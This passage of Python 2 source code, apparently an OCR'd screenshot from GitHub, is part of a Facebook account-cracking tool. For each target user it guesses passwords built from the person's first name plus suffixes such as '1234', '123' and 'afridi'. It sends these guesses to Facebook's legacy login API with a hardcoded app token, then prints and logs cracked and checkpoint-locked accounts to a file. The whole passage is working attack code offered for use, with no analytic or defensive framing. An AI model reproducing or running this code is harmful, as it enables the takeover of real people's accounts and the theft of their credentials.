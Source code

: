 											print '\x1b[1;93mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass4
											cek = open("out/checkpoint.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['first_name'] + '1234'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;93mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass5
													cek = open("out/checkpoint.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = b['first_name'] + '123'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															print '\x1b[1;93mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass6
															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + 'afridi'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;93mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	